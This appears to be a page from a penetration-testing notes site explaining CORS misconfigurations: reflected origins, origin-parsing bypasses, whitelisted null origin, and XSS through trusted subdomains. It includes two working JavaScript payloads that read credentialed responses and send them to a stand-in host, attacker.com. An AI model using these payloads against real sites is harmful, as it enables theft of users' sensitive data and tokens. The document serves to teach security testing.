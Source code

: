 ```yaml
---
title: "CORS"
weight: 7
---
```


# CORS

**Impact**: if a response contains any sensitive information such as an API key or CSRF token, you could retrieve these info.

## Server ACAO Header from Client-Origin

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

**Detection**&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

**Exploit**

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://attacker.com/log?key='+this.responseText;
};
</script>
```

## Errors parsing Origin headers

Suppose `normal-website.com`. Bypass with`hackersnormal-website.com` or `normal-website.com.evil-user.net`

{{< hint style=notes >}}
**Note**: you need to know the whitelisted origins.
{{< /hint >}}

## Whitelisted null origin value

**Detection**

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

**Exploit**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://attacker.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Exploiting XSS via CORS trust relationships

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an XSS on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```sh
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## Cookie SameSite

It is important to note that all this works in according with SameSite cookie attribute. This means that if your session cookie is set with `SameSite=Strict` the browser send the cookie only for same-site requests. For more information about this topic and how to bypass it, refer to [#samesite-cookies](csrf-cross-site-request-forgery.md#samesite-cookies "mention").
